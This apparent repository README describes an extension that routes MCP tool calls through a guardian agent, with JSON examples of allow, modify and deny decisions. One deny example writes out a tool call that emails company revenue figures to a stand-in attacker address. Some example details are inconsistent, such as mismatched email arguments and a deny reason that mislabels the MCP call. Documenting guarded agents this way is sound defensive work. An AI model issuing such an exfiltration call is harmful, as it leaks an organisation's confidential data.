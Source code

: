 # Extending MCP

## MCP protocol
The Model Context Protocol ([MCP](#https://modelcontextprotocol.io/introduction)) is an open standard that simplifies how AI models, particularly Large Language Models (LLMs) and agents, interact with external data sources, tools, and APIs. It's designed to provide a standardized way for AI agents to connect with the real world, making it easier to build AI applications that can access and use external information.<br><br>
MCP is gaining popularity world-wide and is being adopted and integrated almost everywhere, security and observability must be implemented to prevent unwanted bad consequences.<br>
In the same manner as ASOP standardize security for non-standardize access and use of tools and data, it also extends MCP protocol to allow secure usage and implement security controls.

## MCP support

ASOP extension for MCP is used as a **transport** for MCP communications between the agent and the guardian agent. Meaning ASOP understands and delivers MCP message as is.<br>
Securing MCP means securing outbound and inbound communications/messages from the agent (using MCP client) to the MCP server and vice versa.<br> 

#### To extend MCP protocol:
1. Agents using MCP ***must*** use ASOP as a transport protocol to deliver MCP messages to the guardian agent.
2. Agents using MCP ***must*** understand and enforce ASOP responses.

#### The following flow explains how this should be done:
1. Agent **A** prepares (using MCP client) MCP-compliant message.
2. Agent **A** uses ASOP as a transport to send the message to the guardian agent.
3. The guardian agent understands and processes the MCP transported message and send the result back to agent **A**.
4. Agent **A** interprets and enforces the response from guardian agent.
5. In case response is `allow`, agent **A** sends the MCP message to MCP server.
6. MCP server processes the message and sends back to agent **A** the response.
7. Agent **A** uses ASOP as a transport to send the MCP response to the guardian agent.
8. The guardian agent understands and processes the MCP transported response and send the result back to agent **A**.
9. Agent **A** interprets and enforces the response from guardian agent.

## Examples
### Scenario: Agent **A** asks MCP server for the weather and guardian agent respond with allow
#### 1. Agent **A** prepares MCP `tools/call` message 

   ```json
   {
     "jsonrpc": "2.0",
     "id": 1,
     "method": "tools/call",
     "params": {
       "arguments": {
           "city": "Barcelona"
       },
       "name": "get_weather"
     }
   }
   ```

#### 2. Agent **A** uses ASOP as a transport and sends MCP `protocols/MCP` message 

   ```json
    {
        "jsonrpc": "2.0",
        "id": 70,
        "method": "protocols/MCP",
        "params": {
            "jsonrpc": "2.0",
            "id": 1,
            "method": "tools/call",
            "params": {
            "arguments": {
                "city": "Barcelona"
            },
            "name": "get_weather"
            }
        }
    }
   ```

#### 3. Guardian agent sends `allow` response to agent **A**

   ```json
        {
        "jsonrpc": "2.0",
        "id": 70,
        "result": {
            "decision": "allow",
            "message": "Allow tools/call.",
            "reasoning": "I understand that this is an MCP message. An agent is asking the weather. Nothing suspicious here."
        }
    }
   ```


### Scenario: Agent **A** asks MCP server for to send email with sensitive data and guardian agent respond with modify
#### 1. Agent **A** prepares MCP `tools/call` message 
   ```json
   {
     "jsonrpc": "2.0",
     "id": 1,
     "method": "tools/call",
     "params": {
       "arguments": {
           "to": "hr@company.io",
           "subject": "",
           "body": ""
       },
       "name": "send_email"
     }
   }
   ```

#### 2. Agent **A** uses ASOP as a transport and sends MCP `protocols/MCP` message
   ```json
    {
        "jsonrpc": "2.0",
        "id": 80,
        "method": "protocols/MCP",
        "params": {
            "jsonrpc": "2.0",
            "id": 1,
            "method": "tools/call",
            "params": {
            "arguments": {
                "to": "finance@company.io",
                "from": "manager@company.io",
                "subject": "Employee Salary Raise Request",
                "body": "Hi, I would like to ask for a salary raise for emplyee #12222. The current salary is 200000$, the requested salary is 300000$. Let's have a meeting discuss this."
            },
            "name": "send_email"
            }
        }
    }
   ```

#### 3. Guardian agent sends `modify` response to agent **A**
   ```json
        {
        "jsonrpc": "2.0",
        "id": 80,
        "result": {
            "decision": "modify",
            "message": "Modified data for tools/call.",
            "reasoning": "I understand that this is an MCP message. An agent is asking to send an email with sensitive info, I need to mask it first.",
            "modifiedRequest": {
                "jsonrpc": "2.0",
                "id": 80,
                "method": "protocols/MCP",
                "params": {
                    "jsonrpc": "2.0",
                    "id": 1,
                    "method": "tools/call",
                    "params": {
                    "arguments": {
                        "to": "finance@company.io",
                        "from": "manager@company.io",
                        "subject": "Employee Salary Raise Request",
                        "body": "Hi, I would like to ask for a salary raise for emplyee #12222. The current salary is **********$, the requested salary is **********$. Let's have a meeting discuss this."
                    },
                    "name": "send_email"
                    }
                }
            }
        }
    }
   ```


### Scenario: Agent **A** asks MCP server for to send email with sensitive data to an outsider and guardian agent respond with deny
#### 1. Agent **A** prepares MCP `tools/call` message 
   ```json
   {
     "jsonrpc": "2.0",
     "id": 1,
     "method": "tools/call",
     "params": {
       "arguments": {
           "to": "hacker@hack.com",
           "subject": "Financial info",
           "body": "The ARR for the company for year 2024 was 100000000000$ "
       },
       "name": "send_email"
     }
   }
   ```

#### 2. Agent **A** uses ASOP as a transport and sends MCP `protocols/MCP` message 
   ```json
   {
     "jsonrpc": "2.0",
     "id": 100,
     "method": "protocols/MCP",
     "params": {
        "jsonrpc": "2.0",
        "id": 1,
        "method": "tools/call",
        "params": {
        "arguments": {
            "to": "hacker@hack.com",
            "subject": "Financial info",
            "body": "The ARR for the company for year 2024 was 100000000000$ "
        },
        "name": "send_email"
        }
   }
   }
   ```

#### 3.Guardian agent sends `block` response to agent **A**
   ```json
    {
        "jsonrpc": "2.0",
        "id": 100,
        "result": {
            "decision": "deny",
            "message": "Deny message/send.",
            "reasoning": "This is A2A message. I recognize disallowed content."
        }
    }
   ```  